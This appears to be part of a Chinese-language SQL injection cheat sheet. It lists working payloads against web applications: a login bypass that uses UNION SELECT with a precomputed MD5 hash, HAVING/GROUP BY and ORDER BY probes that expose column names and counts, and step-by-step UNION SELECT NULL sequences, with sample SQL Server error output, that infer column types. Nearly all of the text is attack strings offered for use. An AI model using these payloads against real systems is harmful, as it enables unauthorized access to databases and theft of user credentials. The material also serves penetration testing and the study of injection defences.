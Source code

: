 #### 绕过 MD5 哈希检查的例子(MSP)

    用户名：admin

    密码：1234 ' AND 1=0 UNION ALL SELECT 'admin','81dc9bdb52d04dc20036dbd8313ed055
    其中81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)

#### MySQL 字符串连接

    +(S)
    SELECT login + '-' + password FROM members
    || (*MO)
    SELECT login || '-' || password FROM members
    *关于MySQL的"||" 这个仅在ANSI模式下的MySQL执行，其他情况下都会当成'逻辑操作符'并返回一个0。更好的做法是使用CONCAT()函数。
    CONCAT(str1, str2, str3, ...)(M)
    连接参数里的所有字符串 例：SELECT CONCAT(login, password) FROM members

#### 使用 HAVING 来探测字段名(S)

    ' HAVING 1=1 --
    ' GROUP BY table.columnfromerror1 HAVING 1=1 --
    ' GROUP BY table.columnfromerror1, columnfromerror2 HAVING 1=1 --
    ……
    ' GROUP BY table.columnfromerror1, columnfromerror2,columnfromerror(n) HAVING 1=1 --

#### 在 SELECT 查询中使用 ORDER BY 探测字段数(MSO+)

    通过ORDER BY来探测字段数能够加快union注入的速度。
    ORDER BY 1--
    ORDER BY 2--
    ……
    ORDER BY N--
    一直到它报错为止，最后一个成功的数字就是字段数。

#### 数据类型、UNION、之类的

    经常给UNION配上ALL使用，因为经常会有相同数值的字段，而缺省情况下UNION都会尝试返回唯一值(records with distinct)
    如果你每次查询只能有一条记录，而你不想让原本正常查询的记录占用这宝贵的记录位，你可以使用-1或者根本不存在的值来搞定原查询（前提是注入点在WHERE里）。
    在UNION中使用NULL，对于大部分数据类型来说这样都比瞎猜字符串、日期、数字之类的来得强
    盲注的时候要小心判断错误是来自应用的还是来自数据库的。因为像ASP.NET就经常会在你使用NULL的时候抛出错误（因为开发者们一般都没想到用户名的框中会出现NULL）

#### 获取字段类型

    ' union select sum(columntofind) from users-- (S)

    Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a **varchar** data type as an argument. 如果没有返回错误说明字段是数字类型
    同样的，你可以使用CAST()和CONVERT()

    SELECT * FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, convert(image,1), null, null,NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULl, NULL--
    11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 –-
    没报错 - 语法是正确的。 这是MS SQL Server的语法。 继续。
    11223344) UNION SELECT 1,NULL,NULL,NULL WHERE 1=2 –-
    没报错 – 第一个字段是integer类型。
    11223344) UNION SELECT 1,2,NULL,NULL WHERE 1=2 --
    报错 – 第二个字段不是integer类型
    11223344) UNION SELECT 1,’2’,NULL,NULL WHERE 1=2 –-
    没报错 – 第二个字段是string类型。
    11223344) UNION SELECT 1,’2’,3,NULL WHERE 1=2 –-
    报错 – 第三个字段不是integer
    ……
    Microsoft OLE DB Provider for SQL Server error '80040e07' Explicit conversion from data type int to image is not allowed.
